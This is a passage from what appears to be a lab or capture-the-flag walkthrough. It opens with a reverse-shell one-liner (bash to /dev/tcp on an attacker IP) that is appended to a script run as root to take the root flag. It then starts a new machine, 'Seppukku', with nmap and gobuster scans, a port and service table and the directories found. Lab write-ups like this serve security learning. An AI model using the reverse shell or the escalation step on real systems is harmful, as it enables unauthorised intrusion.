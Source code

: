 This can be done via `echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.49.147/3003 0>&1'" >> write.sh`. This gives a shell in 5 minutes. Subsequently, it also gives the root flag.

---

## Seppukku

### Enumeration

Machine IP &rarr; `192.168.244.90`

#### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.141.90`

OS Detection &rarr;  `os_info`

#### Table

| **Port** | **Service**   | **Other details (if any)**                     |
| -------- | ------------- | ---------------------------------------------- |
| 21       | FTP           | vsftpd 3.0.3                                   |
| 22       | SSH           | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80       | HTTP          | nginx 1.14.2                                   |
| 139      | NETBIOS-SSN   | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)    |
| 445      | MICROSOFT-DS  | Samba smbd 4.9.5-Debian (workgroup: WORKGROUP) |
| 7080     | SSL/EMPOWERID | LiteSpeed                                      |
| 7601     | HTTP          | Apache httpd 2.4.38 ((Debian))                 |
| 8088     | HTTP          | LiteSpeed httpd                                |

#### Web Scan

GoBuster scan &rarr; `/opt/gobuster dir -u http://192.168.141.90 -f -w /opt/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- /index.html
- /icons/
- /b/
- /a/
- /c/
- /t/
- /r/
- /d/
- /e/
- /f/
- /h/
- /w/
- /q/
- /database/
- /production/
- /keys/
- /secret/
